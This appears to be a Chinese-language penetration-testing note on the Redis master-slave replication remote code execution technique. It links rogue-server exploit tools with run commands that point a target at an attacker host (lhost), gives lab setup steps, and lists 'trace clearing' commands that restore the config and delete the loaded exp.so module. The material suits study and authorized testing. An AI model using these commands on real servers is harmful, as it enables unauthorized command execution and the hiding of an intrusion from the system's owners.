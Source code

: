 
## 主从复制远程代码执行漏洞

**描述**

先创建一个恶意的 Redis 服务器作为 Redis 主机 (master)，该 Redis 主机能够回应其他连接他的 Redis 从机的响应。有了恶意的 Redis 主机之后，就会远程连接目标 Redis 服务器，通过 slaveof 命令将目标 Redis 服务器设置为我们恶意 Redis 的 Redis 从机(slaver)。然后将恶意 Redis 主机上的 exp 同步到 Reids 主机上，并将 dbfilename 设置为 exp.so。最后再控制 Redis 从机（slaver）加载模块执行系统命令即可

补充 : redis 4.0.0 版本开始才支持 module load

**相关文章**
- [Redis 基于主从复制的 RCE 利用方式](https://paper.seebug.org/975/)
- [Redis主从复制RCE影响分析](https://mp.weixin.qq.com/s/YPLnYWsBMAYij7wXHVpodg) - 介绍了 redis 主从 rce 后如何恢复的方法，可以学习一下

**POC | Payload | exp**
- [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) - 该工具无法对 Redis 密码进行 Redis 认证，也就是说该工具只能在目标存在 Redis 未授权访问漏洞时使用。如果存在密码是不能使用的
    ```bash
    python3 redis-rogue-server.py --rhost rhost --lhost lhost
    ```
- [Ridter/redis-rce](https://github.com/Ridter/redis-rce)
    ```bash
    python3 redis-rce.py -r rhost -L lhost -f exp.so -a password
    ```
- [n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)
- [0671/RedisModules-ExecuteCommand-for-Windows](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows)
- [LoRexxar/redis-rogue-server](https://github.com/LoRexxar/redis-rogue-server)
- [No-Github/redis-rogue-server-win](https://github.com/No-Github/redis-rogue-server-win) - Redis 4.x & 5.x RCE
- [r35tart/RedisWriteFile](https://github.com/r35tart/RedisWriteFile) - 通过 Redis 主从写出无损文件
- [Dliv3/redis-rogue-server](https://github.com/Dliv3/redis-rogue-server)
- [0671/RabR](https://github.com/0671/RabR)

**搭建环境**
```bash
yum install -y tcl
wget download.redis.io/releases/redis-4.0.11.tar.gz
tar zxf redis-4.0.11.tar.gz
cd redis-4.0.11
make PREFIX=/usr/local/redis install

/usr/local/redis/bin/redis-server
```

**痕迹清除**

在攻击之前将数据库原本的配置信息进行备份，攻击完成后，清除痕迹，恢复目录和数据库文件，同时卸载，删除模块
```bash
CONFIG get *    # 获取所有的配置
CONFIG get dir   # 获取 快照文件 保存的 位置
CONFIG get dbfilename   # 获取 快照文件 的文件名
```
```bash
# 切断主从，关闭复制功能
slaveof no one
# 恢复目录
config set dir /data
# 通过 dump.rdb 文件恢复数据
config set dbfilename dump.rdb
# 删除 exp.so
system.exec 'rm ./exp.so'
# 卸载 system 模块的加载
module unload system
```

